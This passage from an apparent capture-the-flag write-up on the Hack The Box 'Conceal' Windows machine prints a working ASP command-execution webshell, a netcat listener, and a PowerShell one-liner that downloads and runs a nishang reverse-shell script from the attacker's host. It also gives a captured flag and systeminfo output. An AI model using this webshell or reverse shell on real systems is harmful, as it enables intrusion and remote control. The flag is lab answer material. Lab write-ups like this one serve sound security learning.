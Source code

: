 ```asp
<b>The server's local address:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

And we upload it again. But this webshell is short-lived because the target machine frequently remove files from the `/upload` directory. Try to set up a stable reverse shell using nishang powershell reverse shell script `Invoke-PowerShellTcpEx.ps1` .

![[Conceal-11.png]]

```bash
nc -vlp 1234
python -m SimpleHTTPServer 80
# run this commmand on the reverse shell
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9:80/Invoke-PowerShellTcpEx.ps1')
```

![[Conceal-12.png]]

After click run, we will get the powershell reverse shell. Excellent!

```bash
whoami
hostname
cd C:\Users\Destitute\Desktop
type proof.txt
# flag
6E9FDFE0DCB66E700FB9CB824AE5A6FF
```

![[Conceal-15.png]]

![[Conceal-13.png]]


# Privilege Escalation
Since it was a windows machine, so we need to do windows exploit suggester.

first let's get systeminfo.

```cmd
systeminfo
```

```txt

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          23/08/2022, 05:14:31
System Manufacturer:       VMware, Inc.
```